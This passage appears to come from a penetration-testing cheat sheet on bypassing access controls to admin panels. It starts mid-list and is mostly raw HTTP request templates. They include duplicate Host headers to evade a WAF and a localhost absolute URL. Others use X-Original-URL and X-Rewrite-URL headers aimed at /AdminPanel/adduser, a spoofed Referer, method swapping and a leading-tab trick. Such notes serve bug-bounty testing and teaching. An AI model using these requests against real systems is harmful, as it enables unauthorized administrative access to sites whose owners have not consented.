     > GET /login.php HTTP/1.1 Host: [favoritewaf.com](http://favoritewaf.com) Host: localhost
    
- **host header is Normal But URL is localhost**
    
    > GET [http://localhost/AdminPanel](http://localhost/AdminPanel) HTTP/1.1 Host: [target.com](http://target.com) User-Agent: Mozilla/5.0 Referer: [https://previous.com/path](https://previous.com/path) Origin: [https://www.company.com](https://www.company.com)
    

### X-Original-URL Header Tricks

<aside> 🐙 **Make A normal Request to any end point Your Put Path in this haederIf NOTE: Put The Parameters in Request Body or URL**

```
          `GET /?username=carlos HTTP/1.1`
```

</aside>

> X-Rewrie-URL: /adminPanel X-Original-URL: /AdminPanel X-Original-URL: /AdminPanel/adduser

### Refferer Header Tricks

<aside> 🐙 **NOTE :** You need To Know what is the correct previous path From Admin Request ****Referer: http:///target.com/previous/

</aside>

# Method Manipulation

**Original Request**

```bash
GET /AdminPanel HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```

### Change Method Trick

```bash
POST /AdminPanel HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```

### Tab Trick

```bash
		POST /AdminPanel HTTP/1.1
Host: target.com
User-Agent: Mozilla/5.0
Referer: <https://previous.com/path>
Origin: <https://www.company.com>
```
